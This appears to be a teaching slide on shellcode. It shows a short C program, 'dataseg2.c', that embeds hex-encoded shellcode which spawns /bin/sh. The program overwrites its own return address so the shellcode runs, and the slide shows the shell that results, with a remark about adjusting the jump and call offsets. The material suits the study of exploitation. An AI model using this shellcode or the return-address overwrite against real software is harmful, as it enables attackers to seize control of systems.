

# dataseg2.c: amend two instructions

char sc[] =
    "\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43"
    "\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5"
    "\xff\xff\xff/bin/sh/xAAAABBBB";

main() {
    int *ret;

    ret = (int *)&ret+2;
    *ret = (int)sc;
}
$ ./dataseg2
sh4.2 $

we change the 2 instructions and adjust our jmp and call offsets
still works!  Our shellcode is 46 bytes